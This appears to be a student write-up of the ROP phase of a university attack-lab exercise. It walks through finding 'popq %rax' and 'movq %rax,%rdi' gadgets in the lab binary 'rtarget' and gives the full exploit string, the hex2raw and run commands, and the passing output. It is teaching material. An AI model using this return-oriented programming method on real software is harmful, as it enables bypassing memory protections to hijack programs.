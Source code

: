 Phase 4 is different from the previous 3 because on this target, we can't execute code for the following two reasons:
1. Stack randomization -- you can't simply point your injected code to a fixed address on the stack and run your explit code
2. Non-executeble memory block. This feature prevents you from executing instructions on the machine because the memory block is marked as non-executable.

The solution for this is to use ROP (Return Oriented Programming), what ROP does is that since we can't execute our own code, we will look for instructions
in the code that do the same thing as what we want. These are called gadgets and by combining these gadgets, we will be able to perform our exploit.

For this phase, we will be using the program rtarget instead of ctarget

This phase is the same as phase 2 except you are using different exploit method to call touch2 and pass your cookie.

In the pdf it tells you to find the instructions from the table and one of the instructions you will use involve popping rdi register off the stack,

`popq %rdi` is given in the the pdf and it's byte representation is `5f`, since we don't have 5f byte in the dump file, we will look for a substitute which
is `popq %rax% with byte representation of `58`

In your disassembled code, (objdump -d rtarget > rtarget_dump.txt), there are a lot of functions and the ones you can pick your instructions are located 
between start_farm and end_farm something like that. Now, search for 58 between those.

```
00000000004018ee <getval_336>:
4018ee:	b8 1b f3 8c 58       	mov    $0x588cf31b,%eax
4018f3:	c3                   	retq   
```

I found the above in the disassembled code and there might be more than one but you want the function where 58 is present on the outer right end.

The other instruction you need is: `movq %rax %edi` and it's byte representation is `48 89 c7 c3` which is referenced in the pdf. 
Go back to your disassembled code and search for that byte code.

I found:

```
0000000000401907 <setval_131>:
401907:	c7 07 48 89 c7 c3    	movl   $0xc3c78948,(%rdi)
40190d:	c3                   	retq   
```

Now you have 2 gadgets and can exploit the rtarget program.

The exploit we are doing is:

```
popq %rax
movq %rax %rdi
ret 
```

The next step is constructing your string, the format is padding for the buffer size, gadget 1 address, your cookie, gadget 2 address, return address
and finally touch2 address.

Becareful with the address of the gadgets, it starts at the byte code we are looking for not at the address where the function starts.

What I mean is that, look at the first gadget:
```
00000000004018ee <getval_336>:
4018ee:	b8 1b f3 8c 58       	mov    $0x588cf31b,%eax
4018f3:	c3                   	retq   
```
The address of the function starts at `4018ee` but 58 is present on the 5th byte, so we need to add 4 bytes to the address.
We just want the bytes starting at that address.

`4018ee + 4 = 4018f2`

Same thing with the second gadget: address starts at `401907` but `48 89 c7 c3` starts on the 3rd byte, so add 2 bytes to the address.

```
0000000000401907 <setval_131>:
401907:	c7 07 48 89 c7 c3    	movl   $0xc3c78948,(%rdi)
40190d:	c3                   	retq   
```

`401907 + 2 = 401909`

Now put everything together in a file named phase4.txt and here is my version:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* first 24(buffer size) bytes here are just padding */
f2 18 40 00 00 00 00 00 /* gadget 1: popq %rax address starts at last byte */
70 4b 4b 43 00 00 00 00 /* cookie */
09 19 40 00 00 00 00 00 /* gadget 2: move %rax to %rdi */
8c 17 40 00 00 00 00 00 /* touch2 address
```

Last step is to generate the raw eploit string using the hex2raw program.

`./hex2raw < phase4.txt > raw-phase4.txt`

Finally, you run the raw file (remember you are running it on rtarget, not ctarget)

`./rtarget < raw-phase4.txt`

You should get something like below:

```
Type string:Touch2!: You called touch2(0x434b4b70)
Valid solution for level 2 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

